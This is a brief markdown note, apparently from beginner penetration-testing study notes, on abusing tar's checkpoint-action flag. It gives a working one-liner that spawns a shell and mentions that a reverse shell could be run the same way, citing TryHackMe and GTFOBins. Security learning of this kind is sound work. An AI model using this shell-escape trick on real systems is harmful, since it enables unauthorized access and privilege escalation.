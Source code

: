 # Exploiting "tar"

Tar can be configured to execute an action for every N files processed using the `--checkpoint` and `--checkpoint-action` flags. So this will get us a shell:

```bash
tar -cf /dev/null /dev/null \
    --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

This works with any input/output file (not just /dev/null), and with any executable binary (such as a reverse shell).

* [TryHackMe: Complete Beginner](https://tryhackme.com/path/outline/beginner)
* [GTFOBins: tar](https://gtfobins.github.io/gtfobins/tar/)
